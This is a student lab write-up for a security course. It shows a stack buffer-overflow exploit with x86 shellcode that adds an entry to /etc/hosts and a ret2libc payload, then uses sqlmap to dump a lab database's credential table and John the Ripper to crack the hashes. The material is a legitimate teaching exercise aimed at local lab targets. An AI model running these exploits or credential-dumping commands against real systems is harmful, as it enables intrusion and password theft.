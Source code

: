 # LAB#1, Doan Minh Khanh,   INSE331280E_02FIE

# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  
**Answer 1**: Must conform to below structure:


- Compile asm program and C program to executable code. 
  
Run docker

Copy the above code c into the folder Security-lab/buffer-overflow/vuln.c

Do the same for the shellcode, copy into the file_del

Create the file out vuln.o to execute the code

``` 
gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```
   Create a file_asm out by these 2 commands
``` 
nasm -g -f elf file_del.asm

ld -m elf_i386 -o file_del file_del.o
```
Set up the enviroment
``` 
sudo ln -sf /bin/zsh /bin/sh

sudo sysctl -w kernel.randomize_va_space=0
```
Change perrmission
``` 
sudo chmod 7777 /etc/hosts
``` 
The picture of the above actions:
![createpicture](./img/lab1_pic1.png)


- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
output screenshot (optional)

Stack frame:
![createpicture](./img/test1-stackframe.png)

To execute the the file_del, it needs to overwrite the buffer

we redirect the directory
export mybuf="/home/seed/seclabs/Security-labs/Software/buffer-overflow/file_del"

find the payload by
``` 
gdb -q vuln.out  
``` 

![createpicture](./img/libc.png)
![createpicture](./img/findthepayload.png)
Then we collect the payload that can conduct buffer-overflow to the return address like in the stackframe

payload = padding + system_addr + exit_addr + "/bin/sh"
```
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x09\xdf\xff\xff')")
```
**Conclusion**: comment text about the screenshot or simply answered text for the question

After run the payload in gdb wwe have
![createpicture](./img/runpayload.png)

Then we check again the /cat/host directory, we have see the new part 127.1.1.1 google.com. That means we insert and conduct the buffer-overflow sucessfully 
![createpicture](./img/chenThanhcong.png)
# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

git clone https://github.com/sqlmapproject/sqlmap.git
![createpicture](./img2/sqlmapgitclone.png)

Find the available database
````
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=1&Password=1"  --dbs
````
![createpicture](./img2/findthenamedbs.png)

At the end we have information of the database
![createpicture](./img2/nameofdbs.png)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
````
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" -D sqllab_users --tables
````
![createpicture](./img2/getTableofDatabase.png)
**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit


**Answer 3**:

User Information
````
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" -D sqllab_users -T credential --dump
````
![createpicture](./img2/usertable.png)

Then Download John for window 
Get the directory of file txt
![createpicture](./img2/usrpwddirectory.png)

Run the command:
````
john --incremental --fork=4 --format=Raw-SHA1 "C:\Users\Khanh\AppData\Local\Temp\sqlmapfm2ndib22896\sqlmaphashes-4rzcdov5.txt"
````

The result will occur the password of above users: 
![createpicture](./img2/result1.png)